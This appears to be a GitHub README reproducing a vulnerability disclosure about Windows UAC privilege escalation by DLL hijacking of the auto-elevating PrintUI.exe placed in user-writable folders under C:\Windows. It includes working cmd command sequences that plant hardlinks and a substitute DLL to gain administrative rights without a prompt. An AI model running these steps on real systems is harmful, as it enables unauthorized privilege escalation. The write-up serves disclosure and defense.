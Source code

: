 # Microsoft-Windows-UAC-Privilege-Escalation
Microsoft Windows can dupe users into trusting executables with DLL hijacking and privilege escalation issues

Hi @ll,

Microsoft still ships Windows with and lets it create user-writable
directories below the "Windows" directory %SystemRoot%\ -- despite
that, with exception of %SystemRoot%\Temp\, they are all used to
store DATA and SHOULD have been placed below %ProgramData% alias
%SystemDrive%\ProgramData\ instead!

JFTR: %ProgramData% was introduced with Windows Vista more than 15
      (in words: FIFTEEN) years ago, but Microsoft obviously just
      doesn't care to cleanup their mess.

Authenticode signature verification, for example required to color the
UAC prompt yellow (untrusted) or blue (trusted) and as precondition
for the "auto-elevation" (mis)feature of some 63+ applications shipped
with Windows 7 and ALL later versions, doesn't care about the filename
of an executable, but (eventually) evaluates the pathname of the
(application) directory.


Put together these two weaknesses allow to run arbitrary code WITH
administrative rights in several (user-writable) directories below
C:\Windows: in the account created during Windows setup without UAC
prompt, in (unprivileged) standard user accounts with (blue) UAC prompt!

CVSS 3.0 score: 8.2 (High)
CVSS 3.0 vector: 3.0/AV:L/AC:L/PR:L/UI:R/S:C/C:H/I:H/A:H


Demonstration
~~~~~~~~~~~~~

1. Log on to an arbitrary unprivileged (standard) user account and start
   the command processor, then run the following command lines to detect
   the user-writable directories below %SystemRoot%\ through creation of
   a hardlink named WRITABLE.EXE and collect their pathnames in the file
   %ProgramData%\WRITABLE.LOG:

   COPY /Y NUL: "%ProgramData%\WRITABLE.LOG" && (
   DIR "%SystemRoot%" /A:D /B /S 1>"%ProgramData%\WRITABLE.TMP" && (
   FOR /F "Delims= UseBackQ" %? IN ("%ProgramData%\WRITABLE.TMP") DO @(
   MKLINK /H "%~?\WRITABLE.EXE" "%ProgramData%\WRITABLE.LOG" 2>NUL: && 1>>"%ProgramData%\WRITABLE.LOG" ECHO %~?))
   TYPE "%ProgramData%\WRITABLE.LOG")

   On fresh installations of Windows 10 2004/20H1/20H2 for AMD64 alias
   x64 processors this yields the following pathnames:

   C:\Windows\Tasks
   C:\Windows\Temp
   C:\Windows\tracing
   C:\Windows\Registration\CRMLog
   C:\Windows\System32\FxsTmp
   C:\Windows\System32\Tasks
   C:\Windows\System32\Com\dmp
   C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
   C:\Windows\System32\spool\PRINTERS
   C:\Windows\System32\spool\SERVERS
   C:\Windows\System32\spool\drivers\color
   C:\Windows\SysWOW64\FxsTmp
   C:\Windows\SysWOW64\Tasks
   C:\Windows\SysWOW64\Com\dmp

   On installations which were upgraded to (any version of) Windows 10,
   the following additional pathname is typically listed:

   C:\Windows\System32\Tasks_Migrated

   On installations which have been used for some time, the following
   additional pathnames are typically listed:

   C:\Windows\debug\WIA
   C:\Windows\PLA\Reports
   C:\Windows\PLA\Rules
   C:\Windows\PLA\Templates
   C:\Windows\PLA\Reports\de-DE
   C:\Windows\PLA\Reports\en-GB
   C:\Windows\PLA\Reports\en-US
   ...
   C:\Windows\PLA\Reports\ru-RU
   C:\Windows\PLA\Rules\de-DE
   C:\Windows\PLA\Rules\en-GB
   C:\Windows\PLA\Rules\en-US
   ...
   C:\Windows\PLA\Rules\ru-RU
   C:\Windows\System32\catroot2\{F750E6C3-38EE-11D1-85E5-00C04FC295EE}
   C:\Windows\System32\LogFiles\WMI


2. Let's see whether the hardlinks WRITABLE.EXE can be (ab)used: copy an
   arbitrary executable to all of them and execute it.

   JFTR: PrintUI.exe is one of the 63+ applications which have UAC auto-
         elevation enabled.

   SETLOCAL ENABLEDELAYEDEXPANSION
   COPY /Y "%ProgramData%\WRITABLE.LOG" "%ProgramData%\WRITABLE.TMP" && (
   COPY /Y "%SystemRoot%\System32\PrintUI.exe" "%ProgramData%\WRITABLE.LOG" && (
   FOR /F "Delims= UseBackQ" %? IN ("%ProgramData%\WRITABLE.TMP") DO (
   START "" /WAIT "%~?\WRITABLE.EXE"
   ECHO !ERRORLEVEL!)))

   In unprivileged (standard) user accounts this triggers an UAC prompt
   for each file executed, some yellow, showing "Publisher: Unknown",
   some blue showing "Verified Publisher: Microsoft Windows".

   After giving consent to the UAC prompt a dialog box showing usage
   instructions for PrintUI.dll is displayed, indicating that (the copy
   of) PrintUI.exe loads PrintUI.dll:

   | Usage: rundll32 printui.dll,PrintUIEntry [options] [@commandfile]

   JFTR: since PrintUI.exe runs elevated, PrintUI.dll runs elevated too!


3. Let's verify the Authenticode signature of the copy of PrintUI.exe:

   SignTool.exe VERIFY /A /V "%ProgramData%\WRITABLE.LOG"

   | Verifying: C:\ProgramData\WRITABLE.LOG
   | File is signed in catalog: C:\Windows\system32\CatRoot\{F750E6C3-38EE-11D1-85E5-
00C04FC295EE}\ntexe.cat
   ...
   | Successfully verified: C:\ProgramData\WRITABLE.LOG
   ...

   Authenticode doesn't care about the path/filename of signed executables,
   even for files with detached signatures, although the *.CAT files used
   to distribute detached digital signatures can store the filename!


4. Let's see whether PrintUI.exe follows the guidance given by the MSRC
   (Microsoft Security Response Center) in the almost 7 year old blog post
   <https://blogs.technet.microsoft.com/srd/2014/05/13/load-library-safely/>.
   the more than 10 year old security advisory
   <https://technet.microsoft.com/en-us/library/2269637.aspx>, or the nearly
   10 year old MSKB articles <https://support.microsoft.com/en-us/kb/2389418>
   and <https://support.microsoft.com/en-us/kb/2533623>: copy ShUnimpl.dll
   as PrintUI.dll next to the copy of PrintUI.exe and execute the latter.

   JFTR: ShUnimpl.dll is the graveyard for obsolete "shell" functions; its
         _DllMainCRTStartup() entry point function returns FALSE to disable
         their use, lets the module loader fail with NTSTATUS 0xC0000142
         alias STATUS_DLL_INIT_FAILED, and lets LoadLibrary() fail with the
         Win32 error 1114 alias ERROR_DLL_INIT_FAILED

   COPY "%SystemRoot%\System32\ShUnimpl.dll" "%ProgramData%\PrintUI.dll"
   RENAME "%ProgramData%\WRITABLE.LOG" PrintUI.exe
   START "" /WAIT "%ProgramData%\PrintUI.exe"
   CERTUTIL.exe /ERROR %ERRORLEVEL%

   OUCH: (the copy of) PrintUI.exe loads an arbitrary PrintUI.dll from its
         application directory instead of %SystemRoot%\System32\PrintUI.dll

   The Common Weaknesses and Exposures classifies such misbehavior, which
   results in arbitrary code execution (here with escalation of privilege),
   as
   - CWE-426: Untrusted Search Path
     <https://cwe.mitre.org/data/definitions/426.html>
   - CWE-427: Uncontrolled Search Path Element
     <https://cwe.mitre.org/data/definitions/427.html>

   The Common Attack Pattern Enumeration and Classification lists it as
   - CAPEC-471: Search Order Hijacking
     <https://capec.mitre.org/data/definitions/471.html>

   JFTR: (un)fortunately PrintUI.dll is not the only DLL that PrintUI.exe
         loads from an unsafe path, and (un)fortunately PrintUI.exe is not
         the only auto-elevating application which loads DLLs from unsafe
         paths!

   A really big "Hooray!" to Microsoft's sloppy, careless and clueless
   developers as well as their sound asleep quality^Wmiserability assurance!


5. Let's see whether UAC auto-elevation is also possible in at least one
   of the user-writable directories: log on to the UAC-controlled user
   account created during Windows setup, start an UNELEVATED (unprivileged)
   command prompt and run the following command lines:

   SETLOCAL ENABLEDELAYEDEXPANSION
   FOR /F "Delims= UseBackQ" %? IN ("%ProgramData%\WRITABLE.TMP") DO (
   MKLINK /H "%~?\PrintUI.dll" "%ProgramData%\PrintUI.dll" && (
   START "" /WAIT "%~?\WRITABLE.EXE"
   ECHO !ERRORLEVEL!))

   BINGO: GAME OVER!

   UAC performs auto-elevation at least in the directories
   C:\Windows\System32\CatRoot2\{F750E6C3-38EE-11D1-85E5-00C04FC295EE}\
   and C:\Windows\System32\Tasks_Migrated\; a copy of PrintUI.exe run in
   these directories loads/executes an arbitrary PrintUI.dll placed there
   too, with ADMINISTRATIVE privileges, without UAC prompt.

   JFTR: even without UAC auto-elevation, this beginner's error present in
         PrintUI.exe (really: almost all applications shipped with Windows)
         allows to fool Jane and Joe Average who typically give consent to a
         blue UAC prompt which shows "Certified Publisher: Microsoft Windows".


